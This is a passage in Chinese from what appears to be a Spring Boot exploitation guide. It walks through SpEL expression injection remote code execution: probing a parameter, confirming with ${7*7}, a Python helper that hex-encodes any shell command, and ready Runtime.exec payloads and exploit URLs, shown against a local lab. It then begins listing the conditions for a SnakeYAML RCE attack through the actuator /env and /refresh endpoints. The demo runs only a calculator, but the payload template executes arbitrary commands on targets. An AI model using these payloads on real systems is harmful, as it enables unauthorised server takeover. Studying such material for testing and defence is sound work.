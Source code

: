 比如发现访问 `/article?id=xxx` ，页面会报状态码为 500 的错误： `Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。

##### 步骤二：执行 SpEL 表达式

输入 `/article?id=${7*7}` ，如果发现报错页面将 7\*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

```php
# coding: utf-8

result = ""
target = 'open -a Calculator'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
```

执行 `open -a Calculator` 命令

```php
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

#### 漏洞原理：

1. spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
2. 此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3. 其中 `${}` 包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞

#### 漏洞分析：

[SpringBoot SpEL表达式注入漏洞-分析与复现](https://www.cnblogs.com/litlife/p/10183137.html)

#### 漏洞环境：

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)

正常访问：

```php
http://127.0.0.1:9091/article?id=66
```

执行 `open -a Calculator` 命令：

```php
http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

### 0x02：spring cloud SnakeYAML RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标依赖的 `spring-cloud-starter` 版本 &lt; 1.3.0.RELEASE
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）
